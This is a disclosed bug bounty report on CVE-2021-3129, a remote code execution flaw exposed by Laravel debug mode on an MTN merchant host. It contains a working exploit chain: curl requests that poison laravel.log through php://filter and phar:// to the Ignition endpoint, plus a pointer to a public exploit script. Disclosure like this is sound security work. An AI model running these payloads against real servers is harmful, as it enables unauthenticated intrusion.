 # Information disclosure due to debug mode enabled at Laravel instance https://mpos.mtn.co.sz/ 

## Report Details
- **Report ID**: 2765259
- **URL**: https://hackerone.com/reports/2765259
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-10-08T05:25:35.982Z
- **Disclosed**: 2025-02-23T09:03:31.950Z

## Reporter
- **Username**: odaysec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
## Summary:
CVE-2021-3129 is a Remote Code Execution vulnerability in the Laravel framework which takes advantage of unsafe usage of PHP. This vulnerability and the steps to exploit it follow a similar path to a classic log poisoning attack. In typical log poisoning, the attacker needs to exploit a local file inclusion first in order to achieve remote code execution, while in the Laravel framework, we need the Ignition module (Ignition is a page for displaying an error) and a specific chain to trigger this vulnerability. This security issue is relatively easy to exploit and does not require user authentication which is one of the reasons why it has a 9.8 CVSSv3 score.



{F3661989}

In Laravel ignition mode, we have a class named MakeViewVariableOptionalSolution which invokes both functions to be triggered by sending a POST request to `/_ignition/execute-solution`. It does this using a JSON payload which includes a viewFile `parameter`. The action of reading and writing a file doesn’t give us more insights, but PHP allows us to use filters like `php://filter/write=convert.base64-decode/resource=path/to/a/specific/file` , and `phar:///path/to/specific/file` to modify and execute PHP serializable code .  However, this is not enough to trigger RCE. Default Laravel has the log file in storage/logs/laravel.log which includes every PHP error. Writing malicious content with the purpose of decoding and executing it won’t work at first, because PHP ignores bad characters when decoding base64, so the error won’t be written in the Laravel log file. 

Moreover, the log file has more entries that affect our payload. Hopefully, we can invoke php:// again to clear the log file and have only our payload executed and injected twice. But we need one more step.  The length of the final payload in the log file is different from one target to another because of the absolute path, which could result in bad decoding of the base64 payload.  One of the last methods I tried to trigger the RCE is to use base64 decode for UTF-16, which aligns the payload for 2 bytes. In this case, the first payload is correctly decoded, thus the second one will be decoded correctly too. 

{F3662012}

```javascript
curl -XPOST -H 'Content-Type: application/json'  -d ‘{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "test", "viewFile": "php://filter/write=convert.iconv.utf-8.utf-16le|convert.quoted-printable-encode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"}, }’  http(s)://mpos.mtn.co.sz/_ignition/execute-solution
```
```javascript
curl -XPOST -H 'Content-Type: application/json'  -d ‘{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "test", "viewFile": "AA"}, }’  http(s)://mpos.mtn.co.sz/_ignition/execute-solution
```
```javascript
curl -XPOST -H 'Content-Type: application/json'  -d ‘{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "test", "viewFile": "=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=56=00=53=00=4B=00=43=00=6B=00=37=00=49=00=44=00=38=00=2B=00=44=00=51=00=70=00=4E=00=41=00=51=00=41=00=41=00=41=00=67=00=41=00=41=00=41=00=42=..."}, }’  http(s)://mpos.mtn.co.sz/_ignition/execute-solution
```
```javascript
curl -XPOST -H 'Content-Type: application/json'  -d ‘{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "test", "viewFile": "php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"}, }’  http(s)://mpos.mtn.co.sz/_ignition/execute-solution
```
```javascript
curl -XPOST -H 'Content-Type: application/json'  -d ‘{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "test", "viewFile": "phar://../storage/logs/laravel.log"}, }’  http(s)://mpos.mtn.co.sz/_ignition/execute-solution
```
 1. Navigate visit directory hostname on https://mpos.mtn.co.sz
 1. Intercept request to burp-suite and following directory parameter on `/srvgtw001/merchant/password/reset`

```
GET /srvgtw001/merchant/password/reset HTTP/1.1
Host: mpos.mtn.co.sz
Cookie: cookiesession1=678B28894C92B8E298EA67025D4086C2
Cache-Control: max-age=0
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```

 1. You can see the laravel-debug-enable 
 1. Lets save exploit bellow as `exploit.py`

```
https://raw.githubusercontent.com/joshuavanderpoll/CVE-2021-3129/refs/heads/main/CVE-2021-3129.py
```
 1. This script is designed to exploit the Remote Code Execution (RCE) vulnerability identified in several Laravel versions, known as CVE-2021-3129. By leveraging this vulnerability, the script allows users to write and execute commands on a target website running a vulnerable Laravel instance, provided that the "APP_DEBUG" configuration is set to "true" in the ".env" file.
 1. And the output of the command should be available in the last response received from the target.


{F3662009}

## Impact

Ignition, a popular debug tool in the Laravel ecosystem, played a crucial role in assisting developers during the application development process. However, its functionality came with a vulnerability that exposed websites using Laravel versions <= 8.4.2 with debug mode enabled to the risk of RCE attacks. This critical vulnerability allowed unauthenticated attackers to execute arbitrary code remotely, potentially wreaking havoc on application data, server resources, and user privacy.

## Attachments
- image.png
- image.png
- image.png
